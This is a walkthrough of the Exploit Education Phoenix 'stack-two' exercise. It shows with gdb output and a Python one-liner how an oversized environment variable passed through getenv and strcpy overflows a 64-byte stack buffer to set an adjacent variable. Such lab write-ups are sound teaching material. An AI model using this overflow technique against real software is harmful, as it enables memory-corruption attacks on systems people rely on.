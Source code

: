 # stack-two

In the previous excercise, we learned that the function `strcpy` is vulnerable to buffer overflows. This time, we cannot give input directly to the program. The `src` parameter is now given the  char pointer `ptr`. The man page for `getenv` tells us: 

> The getenv() function searches the environment list to find the environment variable name, and returns a pointer to the corresponding value string.

If there exists an environment variable named "ExploitEducation", `ptr` will point to the first address of the array of chars that hold the value of the environment variable. We can therefore control the "input"/src to strcpy just like in the previous excercise by just setting the environment variable to whatever we want.

The buffer is still 64 bytes, so let is begin by setting the environment variable as follows before launching gdb:

```console
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print("A"*64 + "BCDE")')
```

(gbd inherits environment variables from the terminal, and stack-two inherts environment variables from gdb.)

In gdb, we set a breakpoint at the beginning of main and run the program. Environment variables are stored at the very beginning of the stack, so let us print a few strings from there. The command `info proc mappings` shows us where the stack is located in virtual memory. See the output below. The stack grows downwards from `0x7ffffffff000`, even though the column says "End Addr".

```console
gef➤  break main
Breakpoint 1 at 0x4006b1
gef➤  r
Starting program: /opt/phoenix/amd64/stack-two

Breakpoint 1, 0x00000000004006b1 in main ()
gef➤  info proc mappings
process 412
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /opt/phoenix/amd64/stack-two
            0x600000           0x601000     0x1000        0x0 /opt/phoenix/amd64/stack-two
      0x7ffff7d6b000     0x7ffff7dfb000    0x90000        0x0 /opt/phoenix/x86_64-linux-musl/lib/libc.so
      0x7ffff7ff6000     0x7ffff7ff8000     0x2000        0x0 [vvar]
      0x7ffff7ff8000     0x7ffff7ffa000     0x2000        0x0 [vdso]
      0x7ffff7ffa000     0x7ffff7ffb000     0x1000    0x8f000 /opt/phoenix/x86_64-linux-musl/lib/libc.so
      0x7ffff7ffb000     0x7ffff7ffc000     0x1000    0x90000 /opt/phoenix/x86_64-linux-musl/lib/libc.so
      0x7ffff7ffc000     0x7ffff7fff000     0x3000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

The output below shows a few strings from the beginning of the stack. 

```console
gef➤  x/-50s 0x7ffffffff000
...output omitted...
0x7fffffffee02: "USER=user"
0x7fffffffee0c: "PWD=/opt/phoenix/amd64"
0x7fffffffee23: "LINES=33"
0x7fffffffee2c: "HOME=/home/user"
0x7fffffffee3c: "LC_CTYPE=C.UTF-8"
0x7fffffffee98: "SSH_TTY=/dev/pts/0"
0x7fffffffeeab: "COLUMNS=165"
0x7fffffffeeb7: "MAIL=/var/mail/user"
0x7fffffffeecb: "SHELL=/bin/bash"
0x7fffffffeedb: "TERM=screen"
0x7fffffffeee7: "SHLVL=1"
0x7fffffffef08: "ExploitEducation=", 'A' <repeats 64 times>, "BCDE"
0x7fffffffef5e: "LOGNAME=user"
0x7fffffffef6b: "PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
0x7fffffffefdb: "/opt/phoenix/amd64/stack-two"
0x7fffffffeff8: ""
0x7fffffffeff9: ""
0x7fffffffeffa: ""
0x7fffffffeffb: ""
0x7fffffffeffc: ""
0x7fffffffeffd: ""
0x7fffffffeffe: ""
0x7fffffffefff: ""
0x7ffffffff000: <error: Cannot access memory at address 0x7ffffffff000>
```

_(I have removed a few uninteresting environment variables from the output above to make it more compact.)_ 

Let us disasseble main and set a breakpoint after the getenv function. When getenv returns, the return value is placed in rax. And we can see below that the content of rax is put onto the stack at rbp-0x8. This must be the ptr pointer. A pointer is 64 bits in x64, so we examine the doubleword at rbp-0x8. Comparing the value with the beginning of the stack where the environment variables are stored, we see that ptr points to the first byte after the equal sign in the environment variable "ExploitEducation". This was not all that surprising of course.

```console
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004006ad <+0>:     push   rbp
   0x00000000004006ae <+1>:     mov    rbp,rsp
=> 0x00000000004006b1 <+4>:     sub    rsp,0x60
   0x00000000004006b5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006b8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006bc <+15>:    mov    edi,0x400790
   0x00000000004006c1 <+20>:    call   0x400500 <puts@plt>
   0x00000000004006c6 <+25>:    mov    edi,0x4007da
   0x00000000004006cb <+30>:    call   0x4004f0 <getenv@plt>
   0x00000000004006d0 <+35>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006d4 <+39>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006d9 <+44>:    jne    0x4006ef <main+66>
   0x00000000004006db <+46>:    mov    esi,0x4007f0
   0x00000000004006e0 <+51>:    mov    edi,0x1
   0x00000000004006e5 <+56>:    mov    eax,0x0
   0x00000000004006ea <+61>:    call   0x400510 <errx@plt>
   0x00000000004006ef <+66>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f6 <+73>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006fa <+77>:    lea    rax,[rbp-0x50]
   0x00000000004006fe <+81>:    mov    rsi,rdx
   0x0000000000400701 <+84>:    mov    rdi,rax
   0x0000000000400704 <+87>:    call   0x4004d0 <strcpy@plt>
   0x0000000000400709 <+92>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070c <+95>:    cmp    eax,0xd0a090a
   0x0000000000400711 <+100>:   jne    0x40071f <main+114>
   0x0000000000400713 <+102>:   mov    edi,0x400828
   0x0000000000400718 <+107>:   call   0x400500 <puts@plt>
   0x000000000040071d <+112>:   jmp    0x400733 <main+134>
   0x000000000040071f <+114>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400722 <+117>:   mov    esi,eax
   0x0000000000400724 <+119>:   mov    edi,0x400870
   0x0000000000400729 <+124>:   mov    eax,0x0
   0x000000000040072e <+129>:   call   0x4004e0 <printf@plt>
   0x0000000000400733 <+134>:   mov    edi,0x0
   0x0000000000400738 <+139>:   call   0x400520 <exit@plt>
End of assembler dump.
gef➤  break *0x4006d4
Breakpoint 2 at 0x4006d4
gef➤  c
gef➤  x/1xg $rbp-0x8
0x7fffffffe4b8: 0x00007fffffffef19
```

```console
gef➤  break *0x400709  
Breakpoint 3 at 0x400709
gef➤  c
Continuing.
```

From just looking at the assembly code, we can easily see that the buffer starts at rbp-0x50 and that the changeme variable is just above it. However, we could also simply print a bunch of bytes from the stack (starting from the stack pointer), and then just look for our easily recognizable string of A's. As seen below

```console
gef➤  x/100bx $rsp
0x7fffffffe460: 0x18    0xe5    0xff    0xff    0xff    0x7f    0x00    0x00
0x7fffffffe468: 0x00    0x00    0x00    0x00    0x01    0x00    0x00    0x00
0x7fffffffe470: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe478: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe480: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe488: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe490: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe498: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4a0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4a8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4b0: 0x42    0x43    0x44    0x45    0x00    0x00    0x00    0x00
0x7fffffffe4b8: 0x19    0xef    0xff    0xff    0xff    0x7f    0x00    0x00
0x7fffffffe4c0: 0x01    0x00    0x00    0x00
```

All we have to do is to make sure the 4 bytes after the buffer get get such that when the integer is loaded into a register it reads 0x0d0a090a. Since the system is little endian, 0x0a must be placed at the lowest address.

```console
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print("A"*64 + "\x0a\x09\x0a\x0d")')
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
``` 

